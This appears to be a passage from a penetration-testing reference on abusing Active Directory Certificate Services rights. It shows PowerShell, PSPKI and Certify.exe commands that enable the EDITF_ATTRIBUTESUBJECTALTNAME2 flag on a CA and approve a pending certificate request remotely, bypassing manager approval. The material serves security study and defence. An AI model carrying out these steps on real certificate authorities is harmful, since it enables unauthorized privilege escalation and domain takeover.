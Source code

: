 `ManageCA` and `ManageCertificates` rights translate to the "CA Administrator" and "Certificate Manager" ("CA Officer") respectively.

The "CA Administrator" role allows to set the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag (see **ESC6**):

```powershell
 # Check before setting the flag
Cmd > hostname
DC01
Cmd > certutil.exe -config "CA01.megacorp.local\CA01" -getreg "policy\EditFlags"
​
 # Invoke SetConfigEntry
PS > "$(hostname) : $(whoami)"
WS01 : megacorp\CertAdmin
PSPKI > $configReader = New-Object SysadminsLV.PKI.Dcom.Implementation.CertSrvRegManagerD "CA01.megacorp.local"
PSPKI > $configReader.SetRootNode($true)
PSPKI > $configReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
1114446
PSPKI > $configReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
​
 # Check after setting the flag (EDITF_ATTRIBUTESUBJECTALTNAME2 should appear in the output)
Cmd > hostname
DC01
Cmd > certutil.exe -config "CA01.megacorp.local\CA01" -getreg "policy\EditFlags"
```

The "Certificate Manager" role allows to remotely approve pending certificate requests which can by used by an adversary to subvert the "CA certificate manager approval" protection:

```powershell
 # Request a certificate that requires manager approval with Certify
PS > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:ApprovalNeeded
...
[*] Request ID : 1337
​
 # Approve a pending request with PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA01.megacorp.local | Get-PendingRequest -RequestID 1337 | Approve-CertificateRequest
​
 # Download the issued certificate with Certify
PS > .\Certify.exe download /ca:CA01.megacorp.local\CA01 /id:1337
```
